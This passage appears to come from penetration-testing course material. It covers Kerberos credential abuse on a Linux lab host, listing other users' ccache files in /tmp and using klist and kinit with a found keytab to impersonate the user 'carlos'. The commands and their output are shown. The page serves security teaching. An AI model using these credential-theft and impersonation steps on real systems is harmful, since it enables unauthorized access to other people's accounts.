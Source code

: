 As mentioned previously, `ccache` files are located, by default, at `/tmp`. We can search for users who are logged on to the computer, and if we gain access as root or a privileged user, we would be able to impersonate a user using their `ccache` file while it is still valid.

### **Searching for ccache Files in /tmp**

```shell-session
david@inlanefreight.htb@linux01:~$ ls -la /tmp

total 68
drwxrwxrwt 13 root                     root                           4096 Oct  6 16:38 .
drwxr-xr-x 20 root                     root                           4096 Oct  6  2021 ..
-rw-------  1 julio@inlanefreight.htb  domain users@inlanefreight.htb 1406 Oct  6 16:38 krb5cc_647401106_tBswau
-rw-------  1 david@inlanefreight.htb  domain users@inlanefreight.htb 1406 Oct  6 15:23 krb5cc_647401107_Gf415d
-rw-------  1 carlos@inlanefreight.htb domain users@inlanefreight.htb 1433 Oct  6 15:43 krb5cc_647402606_qd2Pfh
```

## Abusing KeyTab Files

As attackers, we may have several uses for a keytab file. The first thing we can do is impersonate a user using `kinit`. To use a keytab file, we need to know which user it was created for. `klist` is another application used to interact with Kerberos on Linux. This application reads information from a `keytab` file. Let's see that with the following command:

### **Listing keytab File Information**

```shell-session
david@inlanefreight.htb@linux01:~$ klist -k -t /opt/specialfiles/carlos.keytab 

Keytab name: FILE:/opt/specialfiles/carlos.keytab
KVNO Timestamp           Principal
---- ------------------- ------------------------------------------------------
   1 10/06/2022 17:09:13 carlos@INLANEFREIGHT.HTB
```

The ticket corresponds to the user Carlos. We can now impersonate the user with `kinit`. Let's confirm which ticket we are using with `klist` and then import Carlos's ticket into our session with `kinit`.

{% hint style="info" %}
**Note:** kinit is case-sensitive, so be sure to use the name of the principal as shown in klist. In this case, the username is lowercase, and the domain name is uppercase.
{% endhint %}

### **Impersonating a User with a keytab**

```shell-session
david@inlanefreight.htb@linux01:~$ klist 

Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: david@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:02:11  10/07/22 03:02:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/07/22 17:02:11
david@inlanefreight.htb@linux01:~$ kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
david@inlanefreight.htb@linux01:~$ klist 
Ticket cache: FILE:/tmp/krb5cc_647401107_r5qiuu
Default principal: carlos@INLANEFREIGHT.HTB

Valid starting     Expires            Service principal
10/06/22 17:16:11  10/07/22 03:16:11  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
```
